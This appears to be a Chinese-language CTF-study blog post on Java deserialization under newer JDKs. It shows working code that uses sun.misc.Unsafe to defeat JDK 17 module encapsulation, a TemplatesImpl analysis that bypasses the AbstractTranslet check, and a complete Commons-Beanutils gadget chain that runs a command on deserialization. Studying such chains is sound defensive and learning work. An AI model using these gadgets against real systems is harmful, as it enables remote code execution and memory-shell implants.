







+++
title= "高版本 Jdk 反射 & TemplatesImpl"
slug= "high-jdk-reflection-templatesimpl"
description= ""
date= "2025-12-10T08:50:24+08:00"
lastmod= "2025-12-10T08:50:24+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

现在实际的 CTF 其实基本都是高版本反序列化，低版本生活中有，但是也很少了，之前有用过这类知识去解题，但是不太理解为什么，现在来学习下

本文中涉及的 TemplatesImpl 知识并非高版本，因为高版本中需要`org.springframework.aop.framework.JdkDynamicAopProxy`代理解决其稳定性，但是这个类在`spring-aop`依赖中。

## 反射

### jdk9 之后的模块化

Java模块化主要是用来解决依赖的问题，以及给原生JDK瘦身这两个作用。

在此之前，Java 项目由一堆 JAR 包组成。JVM 并不关心 JAR 包之间的依赖关系，只负责把它们解压出的 class 文件堆在 Classpath 下。一旦漏传了某个依赖 JAR，程序只能在运行时抛出 `ClassNotFoundException` 崩溃。

JDK 9 引入模块化后，如果模块 A 依赖模块 B，必须在`module-info.class`中显式声明。这让 JVM 在启动时就能定位并验证所有依赖。

在 JDK 9 之前，只要利用反射，我们可以访问任何类（public/private）。但在模块化之后，访问权限被严格限制在模块内部。除非目标模块在 `module-info` 中显式 `exports`或`opens`了某个包，否则外部无法通过反射访问其中的类，甚至连`setAccessible(true)`都会失效。 这直接导致了大量依赖私有属性修改的 Gadget 链在高版本 JDK 中断裂。

### jdk17 的强封装

Oracle官方上述文档中提到了`Strong Encapsulation`，这个主要就是针对`java*`包下的所有非public字段的如果我们在JDK17的时候对`java*`下的非公共字段进行反射调用的话就会直接报错。

其实这个东西在JDK9之后就开始被标记为了不安全选项,但是由于很多大型项目之前还是直接使用反射这个功能，直到JDK17才将其强制化。

测试类

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;
import java.lang.reflect.Method;

public class test {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get("Evil");
        evilClass.setName("Evil" + System.nanoTime());
        byte[] bytecodes = evilClass.toBytecode();

        Method defineClass= ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        defineClass.invoke(ClassLoader.getSystemClassLoader(), "attack", bytecodes, 0, bytecodes.length);
    }
}
```

恶意类

```java
public class Evil {
    static {
        try{
            Runtime.getRuntime().exec("open -a Calculator");
        }catch(Exception e){
        }
    }
}
```

报错

```java
/Library/Java/JavaVirtualMachines/jdk-17.0.5.jdk/Contents/Home/bin/java -javaagent:/Applications/IntelliJ IDEA.app/Contents/lib/idea_rt.jar=56613 -Dfile.encoding=UTF-8 -classpath /Users/admin/Downloads/Jaba/jdk17/target/classes:/Users/admin/.m2/repository/org/javassist/javassist/3.29.2-GA/javassist-3.29.2-GA.jar org.example.test
Exception in thread "main" java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @7aec35a
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:354)
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:297)
	at java.base/java.lang.reflect.Method.checkCanSetAccessible(Method.java:199)
	at java.base/java.lang.reflect.Method.setAccessible(Method.java:193)
	at org.example.test.main(test.java:16)

Process finished with exit code 1
```

跟着报错栈浅浅看了眼，就是最后的

```java
private boolean checkCanSetAccessible(Class<?> caller,
                                          Class<?> declaringClass,
                                          boolean throwExceptionIfDenied) {
        if (caller == MethodHandle.class) {
            throw new IllegalCallerException();   // should not happen
        }

        Module callerModule = caller.getModule();
        Module declaringModule = declaringClass.getModule();

        if (callerModule == declaringModule) return true;
        if (callerModule == Object.class.getModule()) return true;
        if (!declaringModule.isNamed()) return true;

        String pn = declaringClass.getPackageName();
        int modifiers;
        if (this instanceof Executable) {
            modifiers = ((Executable) this).getModifiers();
        } else {
            modifiers = ((Field) this).getModifiers();
        }

        // class is public and package is exported to caller
        boolean isClassPublic = Modifier.isPublic(declaringClass.getModifiers());
        if (isClassPublic && declaringModule.isExported(pn, callerModule)) {
            // member is public
            if (Modifier.isPublic(modifiers)) {
                return true;
            }

            // member is protected-static
            if (Modifier.isProtected(modifiers)
                && Modifier.isStatic(modifiers)
                && isSubclassOf(caller, declaringClass)) {
                return true;
            }
        }

        // package is open to caller
        if (declaringModule.isOpen(pn, callerModule)) {
            return true;
        }

        if (throwExceptionIfDenied) {
            // not accessible
            String msg = "Unable to make ";
            if (this instanceof Field)
                msg += "field ";
            msg += this + " accessible: " + declaringModule + " does not \"";
            if (isClassPublic && Modifier.isPublic(modifiers))
                msg += "exports";
            else
                msg += "opens";
            msg += " " + pn + "\" to " + callerModule;
            InaccessibleObjectException e = new InaccessibleObjectException(msg);
            if (printStackTraceWhenAccessFails()) {
                e.printStackTrace(System.err);
            }
            throw e;
        }
        return false;
    }
```

AI 给我画了个树

```java
graph TD
    Start[调用 setAccessible] --> A{是同一模块 或 调用者是 java.base 或 目标是未命名模块?}
    A -- Yes --> Allow[return true  允许访问]
    A -- No --> B{目标包对调用者 isOpen 吗?}
    
    B -- Yes --> Allow
    B -- No --> C{目标包对调用者 isExported 吗?}
    
    C -- No --> Deny[抛出异常 InaccessibleObjectException]
    C -- Yes --> D{目标类是 Public 且成员也是 Public?}
    
    D -- Yes --> Allow
    D -- No --> Deny
```



而我们就是遇到的这里，并不是 public，也就是说反射 private 和 protected 被完全堵死了，那还有机会吗，有的 XD 有的，他不会把反射这种酸爽的功能给舍弃的，我们看到 sun.misc.Unsafe

```java
@ForceInline
    public long objectFieldOffset(Field f) {
        if (f == null) {
            throw new NullPointerException();
        }
        Class<?> declaringClass = f.getDeclaringClass();
        if (declaringClass.isHidden()) {
            throw new UnsupportedOperationException("can't get field offset on a hidden class: " + f);
        }
        if (declaringClass.isRecord()) {
            throw new UnsupportedOperationException("can't get field offset on a record class: " + f);
        }
        return theInternalUnsafe.objectFieldOffset(f);
    }
```

传入一个反射的 `Field` 对象（非静态字段），返回该字段在对象内存布局中的

偏移量 (offset)。JVM 根本不检查 private 还是 public，直接向内存地址写数据。

```java
@ForceInline
    public long staticFieldOffset(Field f) {
        if (f == null) {
            throw new NullPointerException();
        }
        Class<?> declaringClass = f.getDeclaringClass();
        if (declaringClass.isHidden()) {
            throw new UnsupportedOperationException("can't get field offset on a hidden class: " + f);
        }
        if (declaringClass.isRecord()) {
            throw new UnsupportedOperationException("can't get field offset on a record class: " + f);
        }
        return theInternalUnsafe.staticFieldOffset(f);
    }
```

获取静态字段的内存偏移量

```java
@ForceInline
    public Object staticFieldBase(Field f) {
        if (f == null) {
            throw new NullPointerException();
        }
        Class<?> declaringClass = f.getDeclaringClass();
        if (declaringClass.isHidden()) {
            throw new UnsupportedOperationException("can't get base address on a hidden class: " + f);
        }
        if (declaringClass.isRecord()) {
            throw new UnsupportedOperationException("can't get base address on a record class: " + f);
        }
        return theInternalUnsafe.staticFieldBase(f);
    }
```

获取静态字段所属的 基对象 (Base Object)，读写静态字段需要配合使用：`unsafe.getObject(unsafe.staticFieldBase(f), unsafe.staticFieldOffset(f))`。

```java
@ForceInline
public Object allocateInstance(Class<?> cls)
    throws InstantiationException {
    return theInternalUnsafe.allocateInstance(cls);
}
```

分配内存并返回一个类的实例，但不执行任何构造函数 

```java
@Deprecated(since = "15", forRemoval = true)
@ForceInline
public void ensureClassInitialized(Class<?> c) {
    theInternalUnsafe.ensureClassInitialized(c);
}
```

强制初始化一个类，执行`static {}` 静态代码块，

```java
@ForceInline
public final Object getAndSetObject(Object o, long offset, Object newValue) {
    return theInternalUnsafe.getAndSetReference(o, offset, newValue);
}
```

根据内存偏移量以及具体值，来给指定对象的内存空间进行变量设置。

```java
@ForceInline
public void putObject(Object o, long offset, Object x) {
    theInternalUnsafe.putReference(o, offset, x);
}
```

等同于 `Field.set(obj, newValue)`。

```java
@CallerSensitive
public static Unsafe getUnsafe() {
    Class<?> caller = Reflection.getCallerClass();
    if (!VM.isSystemDomainLoader(caller.getClassLoader()))
        throw new SecurityException("Unsafe");
    return theUnsafe;
}
```

在普通应用代码里直接调用`Unsafe.getUnsafe()`会抛出 SecurityException 的原因，它检查了调用者的类加载器是否是系统根加载器（BootLoader），还是需要去反射获取。而在上面的`putObject`以及`getAndSetObject`我们选择使用 putObject，因为后者多了一个“读取旧值”和“保证原子性”的开销。

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import sun.misc.Unsafe;

import static java.lang.Class.forName;

public class test {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get("Evil");
        evilClass.setName("Evil" + System.nanoTime());
        byte[] bytecodes = evilClass.toBytecode();

//        Class UnsafeClass = Class.forName("sun.misc.unsafe");
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        Unsafe unsafe= (Unsafe) f.get(null);

        Module ObjectModule = Object.class.getModule();
        Class currentClass = test.class;
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.putObject(currentClass, addr, ObjectModule);

        Method defineClass= ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        ((Class)defineClass.invoke(ClassLoader.getSystemClassLoader(), evilClass.getName(), bytecodes, 0, bytecodes.length)).newInstance();;
    }

}
```



写成工具方法

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import sun.misc.Unsafe;


public class test {
    public static void main(String[] args) throws Exception {
        patchModule(test.class);

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get("Evil");
        evilClass.setName("Evil" + System.nanoTime());
        byte[] bytecodes = evilClass.toBytecode();

        Method defineClass= ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        ((Class)defineClass.invoke(ClassLoader.getSystemClassLoader(), evilClass.getName(), bytecodes, 0, bytecodes.length)).newInstance();;
    }
    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

}
```

## TemplatesImpl

最初学习 P🐂 在知识星球中放的文档，我其实并不是很明白，我只知道需要赋值三个属性，但是到了需要打内存🐎的时候，之前我也看到过 asalin的 poc 里面并没有赋值 _tfactory 也能成功，现在算是稍微有些了解了。

`TemplatesImpl` 是 Xalan 库中可序列化的类，通过反射修改其 `_bytecodes` 字段为恶意字节码，并触发 `getTransletInstance()` 方法加载实例化该类，即可实现 RCE。



可以看到两个条件，`_name!=null`和`defineTransletClasses()`

```java
private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }

        @SuppressWarnings("removal")
        TransletClassLoader loader =
                AccessController.doPrivileged(new PrivilegedAction<TransletClassLoader>() {
                public TransletClassLoader run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),
                            _tfactory.getExternalExtensionsMap());
                }
            });

        try {
            final int classCount = _bytecodes.length;
            _class = new Class<?>[classCount];

            if (classCount > 1) {
                _auxClasses = new HashMap<>();
            }

            // create a module for the translet

            String mn = "jdk.translet";

            String pn = _tfactory.getPackageName();
            assert pn != null && pn.length() > 0;

            ModuleDescriptor descriptor =
                ModuleDescriptor.newModule(mn, Set.of(ModuleDescriptor.Modifier.SYNTHETIC))
                                .requires("java.xml")
                                .exports(pn, Set.of("java.xml"))
                                .build();

            Module m = createModule(descriptor, loader);

            // the module needs access to runtime classes
            Module thisModule = TemplatesImpl.class.getModule();
            // the module also needs permission to access each package
            // that is exported to it
            PermissionCollection perms =
                new RuntimePermission("*").newPermissionCollection();
            Arrays.asList(Constants.PKGS_USED_BY_TRANSLET_CLASSES).forEach(p -> {
                thisModule.addExports(p, m);
                perms.add(new RuntimePermission("accessClassInPackage." + p));
            });

            CodeSource codeSource = new CodeSource(null, (CodeSigner[])null);
            ProtectionDomain pd = new ProtectionDomain(codeSource, perms,
                                                       loader, null);

            // java.xml needs to instantiate the translet class
            thisModule.addReads(m);

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i], pd);
                final Class<?> superClass = _class[i].getSuperclass();

                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }

            if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
        catch (ClassFormatError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
            throw new TransformerConfigurationException(err.toString(), e);
        }
        catch (LinkageError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString(), e);
        }
    }
```

字节码不为 null，创建了一个类加载器，`_tfactory` 不为空，`_transletIndex`需要大于等于 1。

`AbstractTranslet` 类通过影响 `_transletIndex` 的值来限制执行，但 `_transletIndex` 没有被标记为 `transient` 是能参与序列化过程的，可以直接通过反射来绕过这个限制。还有一个重要方法，`loader.defineClass(_bytecodes[i], pd)`: 这是全场最关键的一行代码。它调用类加载器的 `defineClass` 方法，将 `_bytecodes` 数组里的二进制流加载到 JVM 方法区中，变成真正的 `Class` 对象。`ABSTRACT_TRANSLET`: 常量值为 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`。Xalan 要求主类必须继承这个父类。`_transletIndex`: 记录哪个类是主类（因为 `_bytecodes` 可能包含多个内部类，程序需要知道入口是哪一个）。

### 去除 AbstractTranslet 限制

在加载方法中我们注意到他必须继承自这个类，但是如果我们期望生成 WebSocket 内存马、Value 内存马等也需要继承类的字节码就没办法了，所以接下来要去除该限制。

`AbstractTranslet` 类通过影响 `_transletIndex` 的值来限制执行，但 `_transletIndex` 没有被标记为 `transient` 是能参与序列化过程的，可以直接通过反射来绕过这个限制。



将中间的模块化省略，代码如下

```java
final int classCount = _bytecodes.length;
_class = new Class<?>[classCount];

if (classCount > 1) {
    _auxClasses = new HashMap<>();
}
for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i], pd);
    final Class<?> superClass = _class[i].getSuperclass();

    // Check if this is the main class
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
}
```

当其不继承时，也会向 _auxClasses 中 put 数据，所以需要确保其不为空，而 classCount 如果大于 1 就自动初始化为 HashMap 或者是 Hashtable（看 jdk 版本）。



避免抛出错误，还需要`_transletIndex`大于等于 0

### _tfactory 问题

 `_tfactory` 这个字段是被 `transient` 修饰的，并不参与序列化过程，所以我们是没有必要设置这个值的。



实际来测试下，就用 CB 链来测试下。jdk8u66

```java
package Base.Unserialize.shiro;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import java.io.*;

public class CB {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");
        byte[] evilBytes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setFieldValue(templates, "_name", "Pwnd");
        setFieldValue(templates, "_transletIndex", 0);

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = getField(obj.getClass(),field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        return field;
    }
}
```



调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.readObject(TemplatesImpl.java:267)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.PriorityQueue.readObject(PriorityQueue.java:791)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at Base.Unserialize.shiro.CB.main(CB.java:48)
```

当然了，我们也可以用 spring 原生反序列化来演示下高版本，看下篇文章


> https://forum.butian.net/share/3748
>
> https://whoopsunix.com/docs/PPPYSO/advance/TemplatesImpl/
